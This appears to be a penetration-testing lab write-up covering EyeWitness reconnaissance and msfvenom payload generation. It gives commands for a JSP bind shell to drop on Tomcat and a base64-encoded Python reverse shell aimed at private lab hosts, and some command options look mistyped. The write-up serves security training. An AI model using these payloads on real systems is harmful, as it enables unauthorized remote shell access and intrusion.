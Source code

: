    When testing internal network tools or systems, a custom wordlist can help in discovering weak or default credentials that are relevant to the internal environment.

## WEB-BASED ATTACK SURFACES 

**EyeWitness** is a tool used to automate the process of gathering information about web services by taking screenshots of websites, identifying default credentials, and providing quick access to web application metadata. It's particularly useful for penetration testers, security analysts, and researchers when assessing web applications across multiple hosts.

### Features

- **Screenshots**: Captures screenshots of websites, which helps in quickly reviewing exposed web services.
- **Web Application Scanning**: Focuses on web services and supports both HTTP and HTTPS.
- **Metadata Collection**: Gathers information such as HTTP headers and title pages to give insights into the services running.
- **Handling Non-Standard Ports**: EyeWitness can handle web servers running on non-standard ports, which is common in internal networks.
- **Report Generation**: Generates HTML-based reports that include the screenshots and metadata for easy review.

![alt text](<Screenshot from 2024-09-16 01-37-37.png>)


## PAYLOAD GENERATION 

**JAVA PAYLOAD**  
I will use the command below to generate the payload and later drop it on the apache tomcat webserver in order to get a shell bind .

**COMMAND:**   
msfvenom -p java/jsp_shell_bind_tcp LPORT=4444 -f raw > bind_shell.jsp

![alt text](<Screenshot from 2024-09-16 01-54-08.png>)

**VICTIM**  
10.10.10.55

**PYTHON PAYLOAD**  
1. Generate a reverse shell payload that will be encoded in base64.  
   * Reverse shell bind command  

   * Encode python payload to base64
   
2. Send the base64 payload to the Python server running on the target host 10.10.10.30.
   
3. Decode and execute the payload on the server.
   
4. Connect to the shell using the Netcat tool.

**COMMAND**  
msfvenom -p python/shell_reverse_sctp LHOSTS=10.10.10.30 -f python -e cmd/base64 -o payloads.py

![alt text](<Screenshot from 2024-09-17 07-29-45.png>)

**VICTIM**   
10.10.10.30

## PAYLOADS FOLDER 
Below is a folder that contains java and python payload files.

![alt text](<Screenshot from 2024-09-16 02-08-55.png>)






